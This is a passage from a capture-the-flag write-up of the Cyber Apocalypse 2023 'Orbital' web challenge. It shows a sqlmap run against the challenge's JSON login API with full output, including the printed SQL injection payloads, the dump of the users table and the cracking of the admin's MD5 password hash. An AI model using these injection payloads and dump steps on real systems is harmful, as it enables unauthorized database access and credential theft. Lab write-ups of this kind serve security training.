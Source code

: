 Nice! However, we only got **some password**...

**Hmm... Let's fireup `sqlmap`:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Web/Orbital)-[2023.03.19|12:46:17(HKT)]
└> sqlmap -u http://143.110.160.221:30809/api/login --data='{"username":"test","password":"test"}' --dbms=MySQL --batch -D orbital -T users --dump
[..]
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[12:46:35] [INFO] testing connection to the target URL
[12:46:36] [WARNING] the web server responded with an HTTP error code (403) which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON username ((custom) POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: {"username":"test"="test" AND (SELECT 2688 FROM(SELECT COUNT(*),CONCAT(0x71716b7171,(SELECT (ELT(2688=2688,1))),0x7176786b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND "test"="test","password":"test"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"username":"test"="test" AND (SELECT 6499 FROM (SELECT(SLEEP(5)))VFpT) AND "test"="test","password":"test"}
---
[12:46:36] [INFO] testing MySQL
[12:46:36] [INFO] confirming MySQL
[12:46:36] [WARNING] potential permission problems detected ('command denied')
[12:46:36] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[12:46:36] [INFO] fetching columns for table 'users' in database 'orbital'
[12:46:37] [INFO] retrieved: 'id'
[12:46:37] [INFO] retrieved: 'int(11)'
[12:46:38] [INFO] retrieved: 'username'
[12:46:38] [INFO] retrieved: 'varchar(255)'
[12:46:39] [INFO] retrieved: 'password'
[12:46:39] [INFO] retrieved: 'varchar(255)'
[12:46:39] [INFO] fetching entries for table 'users' in database 'orbital'
[12:46:40] [INFO] retrieved: '1'
[12:46:40] [INFO] retrieved: '1692b753c031f2905b89e7258dbc49bb'
[12:46:41] [INFO] retrieved: 'admin'
[12:46:41] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[12:46:41] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[12:46:41] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[12:46:41] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[12:46:41] [INFO] starting 4 processes 
[12:46:43] [INFO] cracked password 'ichliebedich' for user 'admin'                                                                                                                                                 
Database: orbital                                                                                                                                                                                                  
Table: users
[1 entry]
```